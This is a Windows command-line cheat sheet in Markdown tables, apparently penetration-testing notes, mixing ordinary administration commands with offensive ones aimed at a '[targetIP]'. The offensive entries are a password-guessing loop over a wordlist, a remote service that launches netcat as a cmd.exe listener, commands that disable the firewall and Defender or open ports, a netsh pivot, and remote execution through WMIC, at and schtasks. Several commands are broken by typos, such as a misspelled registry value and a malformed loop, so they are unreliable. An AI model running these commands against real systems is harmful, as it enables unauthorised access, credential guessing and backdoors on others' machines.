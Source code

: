 ```yaml
---
title: Windows Commands
category: Misc
order: 4
---
```


>**Accounts and Privileges**

Category | Topic | Command
------------- | ------------- | -------------
Accounts and Privileges | Lauch with Admin Privs | ctrl+shift+enter 
Accounts and Privileges | SID | S-[revision level]-[authority level]-[domain/computer]-RID
Accounts and Privileges | Admin RID | 500
Accounts and Privileges | Guest RID | 501 
Accounts and Privileges | Users RID | 1001 and up
Accounts and Privileges | Add or Remove a User | net user [username] [password] /add or /del <br> termservice, telnet
Accounts and Privileges | Add or Remove user to a group | net localgroup [group] [username] /add or /del <br> Examples: <br> Remote Desktop Users, TelnetClients, Administrators
Accounts and Privileges | List Local Users | net user
Accounts and Privileges | List Groups | net localgroup
Accounts and Privileges | List Administrators | net localgroup administrators 
Accounts and Privileges | List Account Policy | net accounts or net accounts /domain
Accounts and Privileges | Password Guess | for /f %i in 9password.lst) do @echo %i & @net use \\[tartet_IP_addr] %i /u:[UserName] 2>nul && echo [UserName]: %i >> success.txt
Accounts and Privileges | Run Progarm as another user | runas /u:fred "cmd /c echo Hello!", runas /smartcard "cmd /c echo Hello!"

>**Accounts and Privileges**

AntiVirus | Turn off Windows Defender | control /name Microsoft.WindowsDefender
AntiVirus | Turn off Smart Screen | control /name Microsoft.ActionCenter
Inventory, File Search, and Counting | Count Lines | <code> type "file" | find /c /v "" </code>
Inventory, File Search, and Counting | Inventory Software | "dir /s ""c:\Program Files"" > inventory.txt <br> dir /s ""c:\Program Files (x86)"" >> inventory.txt" 
Inventory, File Search, and Counting | Display File Contents | type [file], type *.[ext], type [file1] [file2]
Inventory, File Search, and Counting | Search in FIle | <code> type [file] | find /i "[string]", type [file] | findstr [regex] </code>
Inventory, File Search, and Counting | See Environment Variables | set, set [variable_name] <br> Example: username, path
Inventory, File Search, and Counting | Search for File | dir /b /s [directory]\[file]  (use ^ to escape spaces) <br> Example: dir /b /s %systemroot%\hosts
Inventory, File Search, and Counting | Read Registry Key | reg query [keyName] 
Inventory, File Search, and Counting | Change Registry Key | reg add [KeyName] /v [ValueName] /t [type] /d [data]
Inventory, File Search, and Counting | Export Registry Keys | reg export [keyName] [filename.reg] 
Inventory, File Search, and Counting | Import Registry Keys | reg import [filename.reg]
Inventory, File Search, and Counting | Find a String  | find "[string]", findstr [regex]
 
Network and Firewalls | Network Activity | <code> netstat -na | find ":[port]"</code> 
Network and Firewalls | DNS cahce | ipconfig /displaydns
Network and Firewalls | Turn firewall off | netsh advfirewall set allprofiles state off
Network and Firewalls | Firewall Rule | netsh advfirewall firewall add rule name="[name]" <br> dir=in action=allow remoteip=[yourIPaddress] protocol=TCP localport=[port number] <br> Example: 3389, 23
Network and Firewalls | Delete Firewall Rule | netsh advfirewall firewall del rule name="[name]" 
Network and Firewalls | Disable Firewall | netsh advfirewall set allprofiles state off 
Network and Firewalls | Firewall Rule Registry | reg add HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /V 2000:TCP /T REG_SZ /F /D "2000:TCP:*:Enabled" 
Network and Firewalls | View Firewall Configuration | netsh advfirewall show allprofiles 
Network and Firewalls | Ping Sweep | <code> for /L %i in (1, 1, 255) do @ping -n 1 192.168.2.%i | find "TTL" </code>
Network and Firewalls | DNS Lookup | for /L %i in (1, 1, 255) do @echo 10.10.10.%i & nslookup 10.10.10.%i  2>nul | find "Name"
Network and Firewalls | Netsh pivot | netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=[RPORT] connectaddress=[RHOST] 

Process and Service | Install a service | "pkgmgr /iu:""[servicename]"" <br> dism /online /Enable-Features /FeatureName:TelnetServer" | 
Process and Service | List Running Services | sc query | 
Process and Service | List All Services | sc query state= all | 
Process and Service | List Remote Services  | sc \\[targetIP] query | 
Process and Service | Check status of service | sc query [service name] | 
Process and Service | Start/Stop a service | sc start/stop [service name] | 
Process and Service | Change Startup type of service | sc config [servicename] start= demand | termservice, telnet
Process and Service | Delete Service | sc delete [service name] | 
Process and Service | List Processes | tasklist | 
Process and Service | Kill a Process | taskkill /PID [process_ID] | 
Remote Access, SMB, and WMIC | See Current Privileges | whoami | 
Remote Access, SMB, and WMIC | Windows null session | net use \\targetip "" /u:"" | 
Remote Access, SMB, and WMIC | Establish an SMB session | net use \\[targetIP] [password] /u:[user] | 
Remote Access, SMB, and WMIC | Mount a Share on Target | "net use * \\[targetIP]\[share] [password] /u:[user] <br> net use * \\[targetIP]\[share] [password] /u:[MachineName_or_Domain]\[user]" | 
Remote Access, SMB, and WMIC | Dropping SMB Session | "net use \\[targetIP] /del <br> net use * /del" | 

Remote Access, SMB, and WMIC | Run a Remote Command | sc \\[targetIP] create netcat binpath= "cmd.exe /k c:\tools\nc.exe -L -p cmd.exe | 
Remote Access, SMB, and WMIC | Turn on Remote Desktop / terminal services | reg add "hklm\system\currentcontrolset\control\terminal server" /v fdenysconnetions /t reg_dword /d 0 | 
Remote Access, SMB, and WMIC | Remote Registry  | Put \\[MachineName] before [KeyName] | 
Remote Access, SMB, and WMIC | WMIC Invoke Porgram | wmic /node:[targetIP] /user:[admin_user] /password:[password] process call create [command] | 
Remote Access, SMB, and WMIC | WMIC on Multiple Machines | /node:@[filename] - run a command on multiple machines listed in a file | 
Remote Access, SMB, and WMIC | WMIC Service Query | wmic services where (displayname like "%[whatever]%") get name | 
Remote Access, SMB, and WMIC | WMIC List Processes | wmic /node:[targetIP] /user:[admin_user] /password:[password] process list brief | 
Remote Access, SMB, and WMIC | WMIC Kill Processes | wmic /node:[targetIP] /user:[admin_user] /password:[password] process where name="[name]" delete or processID="[PID]" delete | 
Remote Access, SMB, and WMIC | WMIC Monitor Process | wmic process where name="[name]" list brief /every:1 | "nc.exe"
Remote Access, SMB, and WMIC | at (windows 7 and lower)(all commands at SYSTEM) | "net use \\[targetIP] [password] /u:[admin_user] <br> sc \\[targetIP] query schedule (*make sure it is running*) <br> *sc \\[targetIP] start schedule* <br> at [\\targetIP] [HH:MM] [A|P] [command] <br> at \\[machine] [time] cmd /c ""[command]"" <br> at \\[targetIP} (*check status*)" | 
Remote Access, SMB, and WMIC | schtasksStart TIme - HH:MM:SSFrequency: MINUTE, HOURLY, DAILY, ONCE, ONSTART, ONLOGON, ONIDLE | "> net use \\[targetIP] [password] /u:[admin_user]
> sc \\[targetIP] query schedule (*make sure it is running*)
> *sc \\[targetIP] start schedule*
> schtasks /creat /tn [taskname] /s [targetIP] /u [user] /p [password] /sc [frequency]  /st [starttime] /sd [startdate] /tr [command]
> schtasks /query /s [targetIP]
>" | 
Remote Access, SMB, and WMIC | Simple Windows IIS Express Server | C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\tools /port:8001 | 
Scripting and Shell | Navigate History | F7 | 
Scripting and Shell | For Loops | "for /L %i in ([start], [step], [stop]) do [command]) 
*note: step of zero runs forever" | for /L %i in (1, 1, 255) do echo %i
Scripting and Shell | For Loops Iterate | for /F ["options"] %i in ([stuff]) do [command] | 
Scripting and Shell | Pause/Break | timeout /t 4 /nobreak | 
Scripting and Shell | Turn off command echo | @ | for /L %i in (1, 1, 255) do @echo %i
Scripting and Shell | Multiple Commands | & | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak
Scripting and Shell | Multiple Successful Commands | && | 
Scripting and Shell | Throw Away Output | >nul | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak > null
Scripting and Shell | Print Blank Line or Beap | echo., echo CTRL-G | 
Scripting and Shell | CR/LF (0d0a) | Windows use CR/LF as EOF characters. | 

